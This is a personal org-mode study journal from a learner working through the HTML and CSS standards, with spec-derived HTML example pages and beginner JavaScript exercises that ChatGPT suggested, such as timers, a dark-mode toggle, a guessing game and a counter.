I keep going back and forth from the specs to ChatGPT.
ChatGPT is great to teach me about the historical context.
It also makes great parallels with newer versions, points out things that have changed over time.
And it agrees with me about the quirks---but also often gives plausible motivations at the time for the quirks.

I just found out that modern alternatives like Flex and Grid do not collapse margins.
Thank God for them.
But this is not screamed all over the web tutorials as I believe it should be.
Advices like:

#+begin_quote
Avoid using the box model for layout, use the flex model instead.
#+end_quote

Just finished reading it.
Very nice.
Lots of quirks.

The one thing I really think would be useful is: when setting a property valeu, being able to reference the /current/ value.
For instance: If I want to make the first letter of a paragraph twice as big, I could say something like:

#+begin_src css :noweb no
p::first-letter {
  font-size: calc(current * 2);  /* or  '2*'  */
}
#+end_src

Or if I wanted it to be 10 pixels bigger:

#+begin_src css :noweb no
p::first-letter {
  font-size: calc(current + 10px);
}
#+end_src

** CSS2.1 Standard

It mentions "webmasters" LOL.

Starts talking about JavaScript.

** Seinfeld Checkmark

[[file:images/2025-10-08_seinfeld.jpeg]]

* [2025-10-07 Tue]

** CSS has some obscurities

The first one just appeared: The Box Model.
I'll try and be systematic here.

Reading CSS Standar Box Model.
https://www.w3.org/TR/css-box-3/

Again, much better.
Tutorials and books are hesitant about terminology and analogies.
Better go to the source.

First small joy: yes, everything in CSS is either a *box* or a *text sequence*.
CSS has its own tree, the *box tree*, derived from the DOM.

[[file:pages/css2.1-margins-padding-border.html][pages/css2.1-margins-padding-border.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
<HTML>
  <HEAD>
    <TITLE>Examples of margins, padding, and borders</TITLE>
    <STYLE type="text/css">
    </STYLE>
    <link rel="stylesheet" href="css2.1-margins-padding-border-experiments.css">
  </HEAD>
  <BODY>
    
    <div class="ul">
      <UL>
        <div class="li">
          <LI >First element of list
        </div>
        <div class="li">
          <LI class="withborder">Second element of list is a bit longer to illustrate wrapping.
        </div>
      </UL>
      <p class="undecided-p">Is this a paragraph or a list item?</p>
    </div>
  </BODY>
</HTML>
#+end_src

** I started reading CSS1 specs

Very enlightening.
Using ChatGPT to answer questions; usualy involve historical quirks.

** 1h coding

Today I really spent most of the time on the specs.
I also did lots of free explorations on the Dev Tools in Firefox, with the help of ChatGPT.
I'm counting those as coding; all in all, I feel today's work granted me that.

** Seinfeld Checkmark

[[file:images/2025-10-07_seinfeld.jpeg]]

* [2025-10-06 Mon]

** Odin Foundations Course

Started reding the theory for The Box Model.

Went do MDN and ChatGPT for clarifications.

Downloading some CSS books for reference.

Just read some chapters of some CSS books.
Nice to see they have much more structure than several online resources---editorial pressure, probably.

Now, I need to *practice*.

** Burn out WARNING

Today I studied too much, didn't go busking, and didn't properly rest.

I'll work on my 1h coding now, and then rest.

** 1h of Hack!

I'll experiment with LP.
Two code blocks: HTML and JS.

First we tangle.

[[file:~/dev/js-ChatGPT/2025-10-06.html][~/dev/js-ChatGPT/2025-10-06.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>JS with ChatGPT</title>
  </head>

  <body>
    <dl>
      <<html>>
    </dl>

    <script>
      <<js>>
    </script>
  </body>
</html>
#+end_src

*** Minute 40–50: Keyboard events
Now the task:
#+begin_quote
Minute 40–50: Keyboard events
16. Add a <p> that shows which key the user presses (keydown event).
Learn: event.key.
#+end_quote

~<<html>> +≡~

#+begin_src html :noweb-ref html :noweb no
<dt>Keyboard Events</dt>
<dd><p id="pKeyPress"></p></dd>
#+end_src

~event.key~

Need to add an event listener.
Will add it to ~window~.

~<<js>> +≡~

#+begin_src js :noweb-ref js :noweb no
const pKeyPress = document.getElementById("pKeyPress");
window.addEventListener("keydown", (e) => {
    pKeyPress.textContent = e.key;
})
#+end_src

*** Minute 50–60: Mini-project — Guess the Number

#+begin_quote
Minute 50–60: Mini-project — Guess the Number
17. Build a simple game:

Generate a random number between 1 and 10.

Add an <input> and a button.

User guesses the number. Show “Too high”, “Too low”, or “Correct!”.
Learn: combining input, random, conditionals, and DOM updates.
#+end_quote

Add the controls.
Will use a ~dl~.

~<<html>> +≡~

#+begin_src html :noweb-ref html :noweb no
<dt>Guess the number</dt>
<dd>Enter a number between 1 and 10</dd>
<dd><input id="inputGuessNumber" type="text"><button id="buttonGuessNumber">Go!</button></dd>
<dd>Result:</dd>
<dd id="ddGuessNumberResult"></dd>
#+end_src

Create a function to choose a random number between 1 and 10.

~<<js>> +≡~

#+begin_src js :noweb-ref js :noweb no
<<allow user to press Enter instead of clicking the button>>
let number = Math.floor(Math.random() * 10) + 1;
const ddGuessNumberResult = document.getElementById("ddGuessNumberResult");
document.getElementById("buttonGuessNumber")
    .addEventListener("click", () => {
        let guess = Number(document.getElementById("inputGuessNumber").value);
        if (guess < number) {
            ddGuessNumberResult.textContent = "Too low";
        } else {
            if (guess > number) {
                ddGuessNumberResult.textContent = "Too High";
            } else {
                ddGuessNumberResult.textContent = "Correct!";
            }
        }
    });
#+end_src

** Seinfeld Checkmark

[[file:images/2025-10-06_seinfeld.jpeg]]

* [2025-10-05 Sun]

** web.dev HTML Course

Going over the curriculum again, this time specifically to know which *projects* it has.

** ~hr~

Thematic changes.
The Standard says ~section~ and ~hr~ have some "equivalences"---let's experiment with them.

[[file:~/dev/webdev-study/pages/hr.html][~/dev/webdev-study/pages/hr.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>&lt;hr&gt;</title>
  </head>

  <body>
    <p>Aliquam erat volutpat.  Nunc eleifend leo vitae magna.  In id erat non orci commodo lobortis.  Proin neque massa, cursus ut, gravida ut, lobortis eget, lacus.  Sed diam.  Praesent fermentum tempor tellus.  Nullam tempus.  Mauris ac felis vel velit tristique imperdiet.  Donec at pede.  Etiam vel neque nec dui dignissim bibendum.  Vivamus id enim.  Phasellus neque orci, porta a, aliquet quis, semper a, massa.  Phasellus purus.  Pellentesque tristique imperdiet tortor.  Nam euismod tellus id erat.</p>

    <p>Nullam eu ante vel est convallis dignissim.  Fusce suscipit, wisi nec facilisis facilisis, est dui fermentum leo, quis tempor ligula erat quis odio.  Nunc porta vulputate tellus.  Nunc rutrum turpis sed pede.  Sed bibendum.  Aliquam posuere.  Nunc aliquet, augue nec adipiscing interdum, lacus tellus malesuada massa, quis varius mi purus non odio.  Pellentesque condimentum, magna ut suscipit hendrerit, ipsum augue ornare nulla, non luctus diam neque sit amet urna.  Curabitur vulputate vestibulum lorem.  Fusce sagittis, libero non molestie mollis, magna orci ultrices dolor, at vulputate neque nulla lacinia eros.  Sed id ligula quis est convallis tempor.  Curabitur lacinia pulvinar nibh.  Nam a sapien.</p>

    <hr>

    <p>Lorem ipsum dolor sit amet, consectetuer adipiscing elit.  Donec hendrerit tempor tellus.  Donec pretium posuere tellus.  Proin quam nisl, tincidunt et, mattis eget, convallis nec, purus.  Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus.  Nulla posuere.  Donec vitae dolor.  Nullam tristique diam non turpis.  Cras placerat accumsan nulla.  Nullam rutrum.  Nam vestibulum accumsan nisl.</p>

    <hr>

    <section>
      <p>Aliquam erat volutpat.  Nunc eleifend leo vitae magna.  In id erat non orci commodo lobortis.  Proin neque massa, cursus ut, gravida ut, lobortis eget, lacus.  Sed diam.  Praesent fermentum tempor tellus.  Nullam tempus.  Mauris ac felis vel velit tristique imperdiet.  Donec at pede.  Etiam vel neque nec dui dignissim bibendum.  Vivamus id enim.  Phasellus neque orci, porta a, aliquet quis, semper a, massa.  Phasellus purus.  Pellentesque tristique imperdiet tortor.  Nam euismod tellus id erat.</p>

      <p>Nullam eu ante vel est convallis dignissim.  Fusce suscipit, wisi nec facilisis facilisis, est dui fermentum leo, quis tempor ligula erat quis odio.  Nunc porta vulputate tellus.  Nunc rutrum turpis sed pede.  Sed bibendum.  Aliquam posuere.  Nunc aliquet, augue nec adipiscing interdum, lacus tellus malesuada massa, quis varius mi purus non odio.  Pellentesque condimentum, magna ut suscipit hendrerit, ipsum augue ornare nulla, non luctus diam neque sit amet urna.  Curabitur vulputate vestibulum lorem.  Fusce sagittis, libero non molestie mollis, magna orci ultrices dolor, at vulputate neque nulla lacinia eros.  Sed id ligula quis est convallis tempor.  Curabitur lacinia pulvinar nibh.  Nam a sapien.</p>
    </section>

    <p>Lorem ipsum dolor sit amet, consectetuer adipiscing elit.  Donec hendrerit tempor tellus.  Donec pretium posuere tellus.  Proin quam nisl, tincidunt et, mattis eget, convallis nec, purus.  Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus.  Nulla posuere.  Donec vitae dolor.  Nullam tristique diam non turpis.  Cras placerat accumsan nulla.  Nullam rutrum.  Nam vestibulum accumsan nisl.</p>
  </body>
</html>
#+end_src

Visually, there's no explicit "equivalence"; maybe we need some CSS for that.

** ~pre~

[[file:pages/pre.html][pages/pre.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>&lt;pre&gt;</title>
  </head>

  <body>
    <h1>The <code>&lt;pre&gt; element</code></h1>
    <h2>Just <code>&lt;pre&gt;</code></h2>
    <pre>
      function greet(name) {
        console.log(`Hello, ${name}`);
      }
    </pre>

    <h2><code>&lt;pre&gt;&lt;code&gt;&lt;code&gt;&lt;pre&gt;</code></h2>
    <pre>
      <code>
        function greet(name) {
          console.log(`Hello, ${name}`);
        }
      </code>
    </pre>
  </body>
</html>
#+end_src

Both use monospaced fonts.

** ~kbd~

[[file:pages/kbd.html][pages/kbd.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title></title>
  </head>

  <body>
    <pre><samp>You are in an open field west of a big white house with a boarded
front door.
There is a small mailbox here.

></samp> <kbd>open mailbox</kbd>

<samp>Opening the mailbox reveals:
A leaflet.

></samp></pre>
  </body>
</html>
#+end_src

Initial whitespace ("prefixing" w.) matters.

** ~blockquote~

[[file:pages/blockquote.html][pages/blockquote.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title></title>
  </head>

  <body>
    <blockquote>
      <p>I contend that we are both atheists. I just believe in one fewer
        god than you do. When you understand why you dismiss all the other
        possible gods, you will understand why I dismiss yours.</p>
    </blockquote>
    <p>— Stephen Roberts</p>
    <hr>
    <figure>
      <blockquote>
        <p>The truth may be puzzling. It may take some work to grapple with.
          It may be counterintuitive. It may contradict deeply held
          prejudices. It may not be consonant with what we desperately want to
          be true. But our preferences do not determine what's true. We have a
          method, and that method helps us to reach not absolute truth, only
          asymptotic approaches to the truth — never there, just closer
          and closer, always finding vast new oceans of undiscovered
          possibilities. Cleverly designed experiments are the key.</p>
      </blockquote>
      <figcaption>Carl Sagan, in "<cite>Wonder and Skepticism</cite>", from
        the <cite>Skeptical Inquirer</cite> Volume 19, Issue 1 (January-February
        1995)</figcaption>
        </figure>
    <hr/>
    <article>
      <h1><a href="https://bacon.example.com/?blog=109431">Bacon on a crowbar</a></h1>
      <article>
        <header><strong>t3yw</strong> 12 points 1 hour ago</header>
        <p>I bet a narwhal would love that.</p>
        <footer><a href="?pid=29578">permalink</a></footer>
        <article>
          <header><strong>greg</strong> 8 points 1 hour ago</header>
          <blockquote><p>I bet a narwhal would love that.</p></blockquote>
          <p>Dude narwhals don't eat bacon.</p>
          <footer><a href="?pid=29579">permalink</a></footer>
          <article>
            <header><strong>t3yw</strong> 15 points 1 hour ago</header>
            <blockquote>
              <blockquote><p>I bet a narwhal would love that.</p></blockquote>
              <p>Dude narwhals don't eat bacon.</p>
            </blockquote>
            <p>Next thing you'll be saying they don't get capes and wizard
              hats either!</p>
            <footer><a href="?pid=29580">permalink</a></footer>
            <article>
              <article>
                <header><strong>boing</strong> -5 points 1 hour ago</header>
                <p>narwhals are worse than ceiling cat</p>
                <footer><a href="?pid=29581">permalink</a></footer>
              </article>
            </article>
          </article>
        </article>
        <article>
          <header><strong>fred</strong> 1 points 23 minutes ago</header>
          <blockquote><p>I bet a narwhal would love that.</p></blockquote>
          <p>I bet they'd love to peel a banana too.</p>
          <footer><a href="?pid=29582">permalink</a></footer>
        </article>
      </article>
    </article>
    <hr>
    <p>He began his list of "lessons" with the following:</p>
    <blockquote>One should never assume that his side of
      the issue will be recognized, let alone that it will
      be conceded to have merits.</blockquote>
    <p>He continued with a number of similar points, ending with:</p>
    <blockquote>Finally, one should be prepared for the threat
      of breakdown in negotiations at any given moment and not
      be cowed by the possibility.</blockquote>
    <p>We shall now discuss these points...</p>
  </body>
</html>
#+end_src

** ~ol~

[[file:pages/ol.html][pages/ol.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>ol</title>
  </head>

  <body>
    <p>I have lived in the following countries (given in the order of when
      I first lived there):</p>
    <hr>
    <ol>
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol start="-1">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol reversed>
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol reversed start="3">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol reversed start="2">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol type="I" start="-1">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol type="i" start="-1">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol type="A" start="-1">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol type="a" start="-1">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
  </body>
</html>
#+end_src

** ~menu~

[[file:pages/menu.html][pages/menu.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>menu</title>
  </head>

  <body>
    <menu>
      <li><button onclick="copy()"><img src="copy.svg" alt="Copy"></button></li>
      <li><button onclick="cut()"><img src="cut.svg" alt="Cut"></button></li>
      <li><button onclick="paste()"><img src="paste.svg" alt="Paste"></button></li>
    </menu>
  </body>
</html>
#+end_src

** ~dl~

[[file:pages/dl.html][pages/dl.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>dl</title>
  </head>

  <body>
    <dl>
      <dt> Authors
        <dd> John
          <dd> Luke
            <dt> Editor
              <dd> Frank
    </dl>
    <hr>
    <dl>
      <div itemscope itemtype="http://schema.org/Product">
        <dt itemprop="name">Café ou Chocolat Liégeois
          <dd itemprop="offers" itemscope itemtype="http://schema.org/Offer">
            <span itemprop="price">3.50</span>
            <data itemprop="priceCurrency" value="EUR">€</data>
            <dd itemprop="description">
              2 boules Café ou Chocolat, 1 boule Vanille, sauce café ou chocolat, chantilly
      </div>

      <div itemscope itemtype="http://schema.org/Product">
        <dt itemprop="name">Américaine
          <dd itemprop="offers" itemscope itemtype="http://schema.org/Offer">
            <span itemprop="price">3.50</span>
            <data itemprop="priceCurrency" value="EUR">€</data>
            <dd itemprop="description">
              1 boule Crème brûlée, 1 boule Vanille, 1 boule Caramel, chantilly
      </div>
    </dl>
    <hr>
    <dl>
      <dt><dfn>happiness</dfn></dt>
      <dd class="pronunciation">/ˈhæpinəs/</dd>
      <dd class="part-of-speech"><i><abbr>n.</abbr></i></dd>
      <dd>The state of being happy.</dd>
      <dd>Good fortune; success. <q>Oh <b>happiness</b>! It worked!</q></dd>
      <dt><dfn>rejoice</dfn></dt>
      <dd class="pronunciation">/rɪˈdʒɔɪs/</dd>
      <dd><i class="part-of-speech"><abbr>v.intr.</abbr></i> To be delighted oneself.</dd>
      <dd><i class="part-of-speech"><abbr>v.tr.</abbr></i> To cause one to be delighted.</dd>
    </dl>
  </body>
</html>
#+end_src

** ~figure~

Things with a caption.

[[file:pages/figure.html][pages/figure.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>figure</title>
  </head>

  <body>
    <p>In <a href="#l4">listing 4</a> we see the primary core interface
      API declaration.</p>
    <figure id="l4">
      <figcaption>Listing 4. The primary core interface API declaration.</figcaption>
      <pre><code>interface PrimaryCore {
  boolean verifyDataLine();
  undefined sendData(sequence&lt;byte> data);
  undefined initSelfDestruct();
}</code></pre>
    </figure>
    <p>The API is designed to use UTF-8.</p>
    <hr/>
    <figure>
      <figcaption>The castle through the ages: 1423, 1858, and 1999 respectively.</figcaption>
      <figure>
        <figcaption>Etching. Anonymous, ca. 1423.</figcaption>
        <img src="castle1423.jpeg" alt="The castle has one tower, and a tall wall around it.">
      </figure>
      <figure>
        <figcaption>Oil-based paint on canvas. Maria Towle, 1858.</figcaption>
        <img src="castle1858.jpeg" alt="The castle now has two towers and two walls.">
      </figure>
      <figure>
        <figcaption>Film photograph. Peter Jankle, 1999.</figcaption>
        <img src="castle1999.jpeg" alt="The castle lies in ruins, the original tower all that remains in one piece.">
      </figure>
    </figure>
    <hr/>
    <figure>
      <img src="castle1423.jpeg" title="Etching. Anonymous, ca. 1423."
        alt="The castle has one tower, and a tall wall around it.">
      <img src="castle1858.jpeg" title="Oil-based paint on canvas. Maria Towle, 1858."
        alt="The castle now has two towers and two walls.">
      <img src="castle1999.jpeg" title="Film photograph. Peter Jankle, 1999."
        alt="The castle lies in ruins, the original tower all that remains in one piece.">
      <figcaption>The castle through the ages: 1423, 1858, and 1999 respectively.</figcaption>
    </figure>
  </body>
</html>
#+end_src

** ~main~

[[file:pages/main.html][pages/main.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>
<html lang="en">
  <title>RPG System 17</title>
  <style>
  header, nav, aside, main, footer {
    margin: 0.5em; border: thin solid; padding: 0.5em;
    background: #EFF; color: black; box-shadow: 0 0 0.25em #033;
  }
  h1, h2, p { margin: 0; }
  nav, main { float: left; }
  aside { float: right; }
  footer { clear: both; }
  </style>
  <header>
    <h1>System Eighteen</h1>
  </header>
  <nav>
    <a href="../16/">← System 17</a>
    <a href="../18/">RPXIX →</a>
  </nav>
  <aside>
    <p>This system has no HP mechanic, so there's no healing.
  </aside>
  <main>
    <h2>Character creation</h2>
    <p>Attributes (magic, strength, agility) are purchased at the cost of one point per level.</p>
    <h2>Rolls</h2>
    <p>Each encounter, roll the dice for all your skills. If you roll more than the opponent, you win.</p>
  </main>
  <footer>
    <p>Copyright © 2013
  </footer>
</html>
#+end_src

[[file:pages/main-2.html][pages/main-2.html]] ≡

#+begin_src html :noweb no
<!doctype html>
<html lang=en-CA>
<meta charset=utf-8>
<title> … </title>
<link rel=stylesheet href=spa.css>
<script src=spa.js async></script>
<nav>
 <a href=/>Home</a>
 <a href=/about>About</a>
 <a href=/contact>Contact</a>
</nav>
<main>
 <h1>Home</h1>
 …
</main>
<main hidden>
 <h1>About</h1>
 …
</main>
<main hidden>
  <h1>Contact</h1>
  …
</main>
<footer>Made with ❤️ by <a href=https://example.com/>Example 👻</a>.</footer>
#+end_src

** ~em~ and ~strong~

- ~em~ is for *emphasis*
  - same voice, different tone
  - ~i~: different voice
- ~strong~ is for *importance*
  - ~b~: keywords

** ~small~

For small print.

[[file:pages/small.html][pages/small.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>small</title>
  </head>

  <body>
    <p>Example Corp today announced record profits for the
      second quarter <small>(Full Disclosure: Foo News is a subsidiary of
      Example Corp)</small>, leading to speculation about a third quarter
      merger with Demo Group.
    </p>
    <p><q>This is correct</q>, said Ian.</p>
  </body>
</html>
#+end_src

** Web Workers

[[file:pages/web-worker.html][pages/web-worker.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE HTML>
<html lang="en">
 <head>
  <meta charset="utf-8">
  <title>Worker example: One-core computation</title>
 </head>
 <body>
  <p>The highest prime number discovered so far is: <output id="result"></output></p>
  <script>
   var worker = new Worker('./worker.js');
   worker.onmessage = function (event) {
     console.log('hehe');
     document.getElementById('result').textContent = event.data;
   };
  </script>
 </body>
</html>
#+end_src

[[file:pages/worker.js][pages/worker.js]] ≡

#+begin_src js :noweb no
var n = 1;
search: while (true) {
  n += 1;
  for (var i = 2; i <= Math.sqrt(n); i += 1)
    if (n % i == 0)
     continue search;
  // found a prime!
  postMessage(n);
}
#+end_src

** Finished reading the HTML Standard (kind of)

Just finished reading the HTML Standard---skipping a lot of technical details.
Very interesting.
Funny to see the authors have a sense of humor :)

When I started reading, I wanted to

- Have a basic knowledge of all the elements
  - This was accomplished, as the Standard lists them all, with all the details.
- Learn how to do /responsive/ work with images
  - This was advanced, but I need to practice.
- Learn about Web Workers (and Worklets)
  - Idem.

** What now?

After reading the Standard, I still need to practice that knowledge.
I couldn't memorize each and every detail, so I need to apply to learn.
There are several good ways to learn, but I'll stick to Odin for now--- I'm invested.

** 1h of Coding

Wow!
Today another 1h of coding provided by our friend ChatGPT.
This time I had a harder time keeping up!
Couldn’t finish all the exercises in 1h.
But learned a lot!

[[file:pages/2025-10-05_1h.html][pages/2025-10-05_1h.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>JS with ChatGPT</title>
    <style>
    .dark {
      background-color: black;
      color: white;
    }
    </style>
  </head>

  <body id="body">
    <ul>
      <li><button id="start">Start Timer</button></li>
      <li><button id="stop">Stop Timer</button></li>
      <li><p id="display">0</p></li>
      <li><button id="buttonDarkMode">Toggle Dark Mode</button></li>
      <li><button id="buttonRandomFruit">Random Fruit</button></li>
      <li><p id="pRandomFruit"></p></li>
    </ul>
    <hr>
    <ul id="tasksUl"></ul>
    <script>
    /* Minute 0–10: Timers
     ,* 12. Add a button “Start Timer” and a <p> that starts counting up seconds when clicked.
     ,* Bonus: add a “Stop Timer” button.
     ,* Learn: setInterval, clearInterval. */
    const display = document.getElementById("display");
    function updateDisplay() {
      display.textContent = Number(display.textContent) + 1;
    }
    const start = document.getElementById("start");
    const stop = document.getElementById("stop");
    let intervalID = 0;
    start.addEventListener("click", () => {
      if (!intervalID) {
        intervalID = setInterval(updateDisplay, 1000);
      }
    });
    stop.addEventListener("click", () => {
      clearInterval(intervalID);
      intervalID = 0;
    });

    /* Minute 10–20: Toggle behavior
     ,* 13. Add a button “Toggle Dark Mode.”
     ,* Clicking it should switch the page background to black and text to white, and back again.
     ,* Learn: class toggling (element.classList.toggle). */
    const body = document.getElementById("body");
    document.getElementById("buttonDarkMode")
            .addEventListener("click", () => {
              body.classList.toggle("dark");
            });

    /* Minute 20–30: Random fun
     ,* 14. Add a button “Random Fruit.”
     ,* Reuse your fruits array. Each click should display one random fruit in a <p>.
     ,* Learn: Math.floor(Math.random() * arr.length). */
    function getRandomItem(arr) {
      const i = Math.floor(Math.random() * arr.length);
      return arr[i];
    }
    const fruits = ['apple', 'banana', 'pineapple', 'grapefruit', 'orange'];
    document.getElementById("buttonRandomFruit")
            .addEventListener("click", () => {
              document.getElementById("pRandomFruit").textContent =
                getRandomItem(fruits);
            });

    /* Minute 30–40: Arrays of objects
     ,* 15. Create an array of “tasks,” each object with {text: "Do homework", done: false}.
     ,* Write a function to print them all into a <ul>.
     ,* Bonus: strike-through text if done is true.
     ,* Learn: DOM lists, iterating objects. */
    const tasks = [
      {text: "Do homework", done: false,},
      {text: "Do laundry", done: false,},
      {text: "Walk the dogs", done: false,},
      {text: "Fix spaceship", done: false,},
      {text: "Adopt a giraffe", done: true,},
    ];

    for (const task of tasks) {
      let taskLi = document.createElement('li');
      let taskText = document.createTextNode(task.text);
      if (task.done) {
        let sElement = document.createElement("s");
        sElement.appendChild(taskText);
        taskLi.appendChild(sElement);
      } else {
        taskLi.appendChild(taskText);
      }
      document.getElementById("tasksUl").appendChild(taskLi);
    }
    </script>
  </body>
</html>
#+end_src

** Seinfeld Checkmark

[[file:images/2025-10-05_seinfeld.jpeg]]

* [2025-10-04 Sat]

** Google's course

Today I wanna do something "risky": peak at [[https://web.dev/][Google's webdev course]].
I’m feeling curious about a lot of technical nuances and details, and kinda looking for some course that is a middle ground between /hands-on/-focused and /technical-standards/-focused.
The idea is to go over the curriculum, and then reflect.
When I was reading the HTML tech specs, I saw a lot of things that weren't covered on the tutorials; /cool/ things!
I don't know if I should focus on those specs first, or courses, or books.
But I believe a quick look at the curriculum can't hurt.
Let's do it!

The HTML Course is heavily based on the official HTML Standard, but, still, very /fragmented/, and sometimes /vague/.

** HTML Standard

I'm feeling /adventurous/.
Gonna give a peek at the Standard this weekend.

Just read the first 3 chapters; very /technical/---skipped a lot of details.
But the advantage I see is: /not/ consuming a piece of information is /voluntary/, as opposed to consuming third-party tutorials and courses, where they /decide/ which information to ommit.
The problem is: there are no /exercises/; I'll have to deal with that deficiency somehow; probably with tutorials and courses, but /after/ having a general idea of the whole shabang.

** Coding hour

I was half-intending to consider reading the HTML Standard as /valid coding/ for the 1h/day streak.
But... nah.
Then I tried to find something to code.
I want either Elisp or JavaScript.
JavaScript, for focus on current major learning goals.
Exercism, HackerRank, LeetCode, all very advanced problems.
Then asked ChatGPT for some, and this is what I got:

#+begin_src html :noweb no
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>JS with ChatGPT</title>
  </head>
  <body>
    <section>
      <button id="leButton">Je suis leButton</button>
      <p id="leP">Je suis leP.</p>
    </section>
    <section>
      <button id="buttonColorize">Colorize!</button>
    </section>
    <section>
      <input id="leInput" type="Text">
      <button id="leInputButton">Je suis leInputButton</button>
      <p id="leInputP">Je suis leInputP.</p>
    </section>
    <section>
      <p id="leCounterP">0</p>
      <button id="leCounterButtonPlus">+</button>
      <button id="leCounterButtonMinus">-</button>
    </section>

    <script>
     /* 1. Print “Hello, world!” in the console. */
     console.log('Hello, World!');

     /* 2. Store your name in a variable and log Hello, <name>!. */
     const name="Rafael";
     console.log(`Hello, ${name}!`);

     /* 3. Write a function double(n) that returns n * 2.
        Test it with
        console.log(double(5)). */
     function double(n) {
       return n * 2;
     }
     console.log(double(5));

     /* 4. Ask the user for a number (prompt). If it’s even, log “even”; else “odd”. */
     /* const number = Number(prompt('Give me a number, please.'));
      * if (number % 2 === 0) {
      *   console.log('even');
      * } else {
      *   console.log('odd');
      * } */

     /* 5. Create a function max(a, b) that returns the bigger number. */
     function max(a, b) {
       if (a > b) {
         return a;
       } else {
         return b;
       }
     }

     /* 6. Make an array of 5 fruits. Loop through it and log each fruit. */
     const fruits = ['apple', 'banana', 'pineapple', 'grapefruit', 'orange'];
     for (let i = 0; i < fruits.length; i++) {
       console.log(fruits[i]);
     }

     for (const fruit of fruits) {
       console.log(fruit.toUpperCase());
     }

     /* 7. Write a function that takes an array of numbers and returns their sum. */
     const numbers = [1, 2, 3];
     const sum = numbers.reduce((sum, number) => sum + number);
     console.log(sum);

     /* 8. In HTML, add a <button> and a <p>.
        In JS, when you click the button, change the <p> text to “Button clicked!”. */
     const leButton = document.getElementById("leButton");
     const leP = document.getElementById("leP");
     leButton.addEventListener("click", function () {
       leP.textContent = "Button clicked!";
     });

     /* 9. Add another button that, when clicked, changes the page background color randomly. */
     function randomColor() {
       const randomColor = Math.floor(Math.random() * 16777215).toString(16);
       // Pad with leading zeros if the hex string is shorter than 6 characters
       return `#${randomColor.padStart(6, '0')}`;
     }

     const buttonColorize = document.getElementById("buttonColorize");
     buttonColorize.addEventListener("click", function () {
       color = randomColor();
       console.log(color);
       document.body.style.backgroundColor = color;
     });

     /* 10. Add an <input> and a button.
        When you click the button, display “Hello, <input value>!” in a <p>. */
     const leInput = document.getElementById("leInput");
     const leInputButton = document.getElementById("leInputButton");
     const leInputP = document.getElementById("leInputP");
     leInputButton.addEventListener("click", function () {
       leInputP.textContent = `Hello, ${leInput.value}!`;
     });

     /* Minute 50–60: Mini-project
      * 11. Build a tiny “counter”:
      *     - Add a <p> that shows 0.
      *     - Add “+” and “–” buttons.
      *       - Clicking “+” increases the number, “–” decreases it. */
     const leCounterP = document.getElementById("leCounterP");
     const leCounterButtonPlus = document.getElementById("leCounterButtonPlus");
     const leCounterButtonMinus = document.getElementById("leCounterButtonMinus");
     leCounterButtonPlus.addEventListener("click", function () {
       leCounterP.textContent = `${Number(leCounterP.textContent) + 1}`;
     });
     leCounterButtonMinus.addEventListener("click", function () {
       leCounterP.textContent = `${Number(leCounterP.textContent) - 1}`;
     });
    </script>
  </body>
</html>
#+end_src

After I submitted my solutions, ChatGPT
- complimented the random color generator (Google's LOL)

  #+begin_quote
  Stylistic note
  Your random color generator is neat — padding the hex code was a smart touch! That’s something even many beginners forget.
  #+end_quote
- gave some stylistic and best practices that I didn't agree at first

  #+begin_quote
  Counter readability
  Instead of converting textContent back and forth each click, you could keep a separate variable:
  #+end_quote

  #+begin_src js :noweb no
  let counter = 0;
  function updateCounter() {
    leCounterP.textContent = counter;
  }
  leCounterButtonPlus.addEventListener("click", () => {
    counter++;
    updateCounter();
  });
  leCounterButtonMinus.addEventListener("click", () => {
    counter--;
    updateCounter();
  });
  updateCounter();
  #+end_src

  My version is more compact, but looks clumsier.
  I could have also done away with the ~`...`~, as it accepts numbers.

  #+begin_src js :noweb no
  leCounterButtonPlus.addEventListener("click", function () {
      leCounterP.textContent = `${Number(leCounterP.textContent) + 1}`;
  });
  leCounterButtonMinus.addEventListener("click", function () {
      leCounterP.textContent = `${Number(leCounterP.textContent) - 1}`;
  });
  #+end_src



Learned another one!

